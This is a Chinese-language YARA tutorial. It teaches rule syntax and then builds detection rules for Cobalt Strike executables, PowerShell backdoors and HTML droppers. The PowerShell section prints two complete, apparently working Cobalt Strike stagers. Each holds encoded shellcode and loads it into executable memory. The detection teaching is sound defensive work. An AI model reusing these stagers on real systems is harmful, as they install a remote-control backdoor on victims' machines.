# yara 实验

---

# 安装

linux 下可以直接用包管理器进行安装
```bash
apt install -y yara
```

windows 下访问项目的 releases 页面下载 https://github.com/VirusTotal/yara/releases

为了方便,这里重命名 yara64.exe 为 yara.exe

在当前目录下打开CMD,输入help
```
yara.exe --help
```




---

# 语法

```
       --atom-quality-table=FILE        path to a file with the atom quality table
  -C,  --compiled-rules                 加载已编译的规则
  -c,  --count                          只打印匹配的数量
  -d,  --define=VAR=VALUE               定义外部变量
       --fail-on-warnings               警告失败
  -f,  --fast-scan                      快速匹配模式
  -h,  --help                           显示此帮助并退出
  -i,  --identifier=IDENTIFIER          print only rules named IDENTIFIER
  -l,  --max-rules=NUMBER               匹配多个规则后中止扫描
       --max-strings-per-rule=NUMBER    设置每条规则的最大字符串数（默认=10000）
  -x,  --module-data=MODULE=FILE        pass FILE's content as extra data to MODULE
  -n,  --negate                         仅打印不满足的规则 (negate)
  -w,  --no-warnings                    禁用警告
  -m,  --print-meta                     打印元数据
  -D,  --print-module-data              打印模块数据
  -e,  --print-namespace                打印规则的名称空间
  -S,  --print-stats                    打印规则的统计信息
  -s,  --print-strings                  打印匹配的字符串
  -L,  --print-string-length            打印匹配字符串的长度
  -g,  --print-tags                     打印标签
  -r,  --recursive                      递归搜索目录(遵循符号链接)
       --scan-list                      扫描FILE中列出的文件，每行一个
  -k,  --stack-size=SLOTS               设置最大堆栈大小（默认=16384）
  -t,  --tag=TAG                        只打印标记为TAG的规则
  -p,  --threads=NUMBER                 使用指定的线程数来扫描一个目录
  -a,  --timeout=SECONDS                在给定的秒数后中止扫描。
  -v,  --version                        显示版本信息
```

---

# 示例

**基本使用**
```
rule silent_banker : banker
{
    meta:
        description = "This is just an example"
        thread_level = 3
        in_the_wild = true
    strings:
        $a = {6A 40 68 00 30 00 00 6A 14 8D 91}
        $b = {8D 4D B0 2B C1 83 C0 27 99 6A 4E 59 F7 F9}
        $c = "UVODFRYSIHLNWPEJXQZAKCBGMT"
    condition:
        $a or $b or $c
}
```

- 第一行的 rule silent_banker : banker 是声明该规则用于检出 banker 类型的样本。
- meta 后面的是一些描述信息，比如规则说明、作者信息等。
- strings 定义了 $a $b $c 两个十六进制字符串（十六进制字符串用大括号括起来）和一个文本字符串（文本字符串直接用双引号括起来）
- condition 规定了匹配的条件，这里写的是 or，表明样本中只要匹配到了 $a $b $c 三个字符串中的任意一个，那么样本就会被识别为 banker

新建一个 test.yara,内容同上,同时新建一个文件夹,文件夹中随机复制几个文件进去,进行识别
```
yara.exe test.yara 111/
```



没有任何反应, 因为我们的 yara 规则没有命中 111 文件夹下的任何文件。

修改下规则
```
rule silent_banker : banker
{
    meta:
        description = "This is just an example"
        thread_level = 3
        in_the_wild = true
    strings:
        $a = {6A 40 68 00 30 00 00 6A 14 8D 91}
        $b = {8D 4D B0 2B C1 83 C0 27 99 6A 4E 59 F7 F9}
        $c = "UVODFRYSIHLNWPEJXQZAKCBGMT"
        $d = {4D 5A}
    condition:
        $a or $b or $c or $d
}
```

增加了一个十六进制字符串 $d 所匹配的值是 4D 5A。 而 4D 5A 是 PE 文件（包括 exe、dll 等）的文件头，也就是说一个正常的 PE 文件中是一定会包含 4D 5A 这个十六进制的数据的。

且我们在最后的 condition 中加入了 or $d，表示如果 $d 条件满足，样本也可以成功识别。

重新对111文件夹下的文件进行扫描



这里识别了多个文件，并命中自定义的 yara 特征。

如果要识别子目录下的文件需要 -r 参数

**识别 python**

新建 test.yara
```
rule python_test : python
{
    strings:
        $a="if __name__ == '__main__':" nocase
    condition:
        $a
}
```

nocase 关键字代表不区分大小写

测试


---

# 匹配 CS

## Win32_PE

这里生成多个 cs 马,分析提取一些特征。



可以看到大小区分的比较明显,要么 20kb 以下,要么 300kb 以下,这是因为小的是 Staged 大的是 Stageless。

yara 规则是会全文扫描的，那么这样将会大大降低扫描效率，如果我们能够写一些 filter 过滤掉大部分的不相关样本，那么 yara 在扫描的时候将会只对疑似的文件进行有效的扫描而不会浪费资源。

那这里可以过滤文件大小
```
rule CS : win32
{
    condition:
        filesize < 400KB
}
```



用 IDA 分析2个exe

来到 start 函数之后，我们可以发现多个 CobaltStrike 样本的入口点是完全一致的，程序入口点都是 004014B0





用 exeinfo pe 获取入口点,需要注意的是，这里是获取到的文件偏移，也就是offset，并不是我们在IDA中看到的entry_point





使用pe.entry_point来获取入口点
```
import "pe"

rule CS : win32
{
    condition:
        pe.entry_point == 0x8b0 and filesize < 400KB
}
```



接下来继续找特征,静态查看 main 函数



这里调用了 sub_402A60 和 sub_401795 ,跟进查看,这里 sub_401795 比较关键



在 sub_401795 函数中，程序会通过 CreateThread 创建一个新线程

并且可以看到有一个 `%c%c%c%c%c%c%c%c%cMSSE-%d-server` 看起来像是通信协议。

这里 CreateThread 的 lpStartAddress 是 sub_401685, 在 sub_401685 的 sub_4015D0 函数中可以看到通过 CreateNamedPipeA 的方式创建管道准备通信。





那么接下来直接匹配这个字符串
```
import "pe"

rule CS : win32
{
    strings:
        $comm="%c%c%c%c%c%c%c%c%cMSSE-%d-server"
    condition:
        pe.entry_point == 0x8b0 and filesize < 400KB and $comm
}
```



最后再加上一个 PE 文件的判断
```
import "pe"

rule CS : win32
{
    strings:
        $comm="%c%c%c%c%c%c%c%c%cMSSE-%d-server"
    condition:
        uint16(0)==0x5A4D and pe.entry_point == 0x8b0 and filesize < 400KB and $comm
}
```

---

## powershell

生成不同位数下的 powershell 后门



32位
```powershell
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs7qHsDIvDAH2qoF6gi9RLcEuOP4uwuIuQbw1bXIF7bGF4HVsF7qHsHIvBFqC9oqHs/IvCoJ6gi86pnBwd4eEJ6eXLcw3t8eagxyKV+S01GVyNLVEpNSndLb1QFJNz2Etx0dHR0dEsZdVqE3PbKpyMjI3gS6nJySSBycktzIyMjcHNLdKq85dz2yFN4EvFxSyMhY6dxcXFwcXNLyHYNGNz2quWg4HMS3HR0SdxwdUsOJTtY3Pam4yyn4CIjIxLcptVXJ6rayCpLiebBftz2quJLZgJ9Etz2Etx0SSRydXNLlHTDKNz2nCMMIyMa5FeUEtzKsiIjI8rqIiMjy6jc3NwMdEVPECMWbAJzBmNic3gXf3N5exYXC3N9ChRgYAoUXgdmamBicQ5wd2JtZ2JxZw5ibXdqdWpxdnAOd2Zwdw5lam9mAgdrCGsJIxZsAnMGI3ZQRlEOYkRGTVcZA25MWUpPT0IMFg0TAwtATE5TQldKQU9GGANucGpmAxITDRMYA3RKTUdMVFADbXcDFQ0RGAN0Sk0VFxgDWxUXGAN3UUpHRk1XDBUNExgDYlVCTVcDYVFMVFBGUQouKSMWbAJzBmNic3gXf3N5exYXC3N9ChRgYAoUXgdmamBicQ5wd2JtZ2JxZw5ibXdqdWpxdnAOd2Zwdw5lam9mAgdrCGsJIxZsAnMGY2JzeBd/c3l7FhcLc30KFGBgChReB2ZqYGJxDnB3Ym1nYnFnDmJtd2p1anF2cA53ZnB3DmVqb2YCB2sIawkjFmwCcwZjYnN4F39zeXsWFwtzfQoUYGAKFF4HZmpgYnEOcHdibWdicWcOYm13anVqcXZwDndmcHcOZWpvZiNL05aBddz2SWNLIzMjI0sjI2MjdEt7h3DG3PawmiMjIyMi+nJwqsR0SyMDIyNwdUsxtarB3Pam41flqCQi4KbjVsZ74MuK3tzcEhoRDRIVGw0SFxINEhYQIyMjIyM=')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

64位
```powershell
Set-StrictMode -Version 2

function func_get_proc_address {
	Param ($var_module, $var_procedure)
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
	[Byte[]]$var_code = [System.Convert]::FromBase64String('32ugx9PL6yMjI2JyYnNxcnVrEvFGa6hxQ2uocTtrqHEDa6hRc2sslGlpbhLqaxLjjx9CXyEPA2Li6i5iIuLBznFicmuocQOoYR9rIvNFols7KCFWUaijqyMjI2um41dEayLzc6hrO2eoYwNqIvPAdWvc6mKoF6trIvVuEuprEuOPYuLqLmIi4hvDVtJvIG8HK2Ya8lb7e2eoYwdqIvNFYqgva2eoYz9qIvNiqCerayLzYntie316eWJ7YnpieWugzwNicdzDe2J6eWuoMcps3Nzcfkkjap1USk1KTUZXI2J1aqrFb6rSYplvVAUk3PZrEuprEvFuEuNuEupic2JzYpkZdVqE3PbIUHlrquJim3MjIyNuEupicmJySSBicmKZdKq85dz2yHp4a6riaxLxaqr7bhLqcUsjIWOncXFimch2DRjc9muq5Wug4HNJKXxrqtJrqvlq5OPc3NzcbhLqcXFimQ4lO1jc9qbjLKa+IiMja9zsLKevIiMjyPDKxyIjI8uB3NzcDEcWSXkjFmwCcwZjYnN4F39zeXsWFwtzfQoUYGAKFF4HZmpgYnEOcHdibWdicWcOYm13anVqcXZwDndmcHcOZWpvZgIHawhrCSMWbAJzBiN2UEZRDmJERk1XGQNuTFlKT09CDBYNEwMLQExOU0JXSkFPRhgDbnBqZgMaDRMYA3RKTUdMVFADbXcDFQ0SGAN3UUpHRk1XDBYNExgDYWxqZhoYZm12cAouKSMWbAJzBmNic3gXf3N5exYXC3N9ChRgYAoUXgdmamBicQ5wd2JtZ2JxZw5ibXdqdWpxdnAOd2Zwdw5lam9mAgdrCGsJIxZsAnMGY2JzeBd/c3l7FhcLc30KFGBgChReB2ZqYGJxDnB3Ym1nYnFnDmJtd2p1anF2cA53ZnB3DmVqb2YCB2sIawkjFmwCcwZjYnN4F39zeXsWFwtzfQoUYGAKFF4HZmpgYnEOcHdibWdicWcOYm13anVqcXZwDndmcHcOZWpvZgIHawhrCSMWbAJzBmNic3gjYp3TloF13PZrEuqZIyNjI2KbIzMjI2KaYyMjI2KZe4dwxtz2a7BwcGuqxGuq0muq+WKbIwMjI2qq2mKZMbWqwdz2a6DnA6bjV5VFqCRrIuCm41b0e3t7ayYjIyMjc+DLvN7c3BIaEQ0SFRsNEhcSDRIWECMjIyMj')

	for ($x = 0; $x -lt $var_code.Count; $x++) {
		$var_code[$x] = $var_code[$x] -bxor 35
	}

	$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
	$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
	[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

	$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
	$var_runme.Invoke([IntPtr]::Zero)
}
```

32 位和 64 位结构相似, 32 位使用 $DoIt = @''@方式定义两个函数. 程序关键执行的内容被 base64 编码

比较相似的就是这个 `[Byte[]]$var_code = [System.Convert]::FromBase64String`

匹配这种类似的字符串
```
rule powershell
{
    strings:
        $string1="[Byte[]]$var_code = [System.Convert]::FromBase64String"
        $string2="$var_runme.Invoke([IntPtr]::Zero)"
    condition:
        filesize < 20KB and $string1 and $string2
}
```



---

## html_pe

CobaltStrike 提供 3 种生成 html 木马的方式 exe,powershell,vba,依次生成如下



**exe**



简单粗暴,直接包含一个 PE 文件在其中，



文件最后将 shellcode 释出为 evil.exe 并执行，这里文件名不一定是固定值,尝试通过正则进行匹配。

```
rule html_exe
{
    strings:
        $string="evil.exe"
        $string2="var_shellcode"
        $reg1= /var_tempexe = var_basedir & \"\\\" & \"[A-z]{1,20}.exe\"/
    condition:
        filesize < 100KB and $string and $string2 and $reg1
}
```



**vba**

查看 vba 版的html马



中间一大段为混淆的 vba 代码



通过 & 符号拼接由 chr 函数转换的 ascii
```
&Chr(10)&
```

这里比较容易找到特征,比如 myAr"&"ray



```
rule html_vba
{
    strings:
        $string="Wscript.Shell"
        $string2= "myAr\"&\"ray \"&Chr(61)&\" Array\"&Chr(40)&Chr(45)&\"4\"&Chr(44)&Chr(45)&\"24\"&Chr(44)&Chr(45)&"
    condition:
        filesize < 100KB and $string and $string2
}
```



**powershell**

查看结构

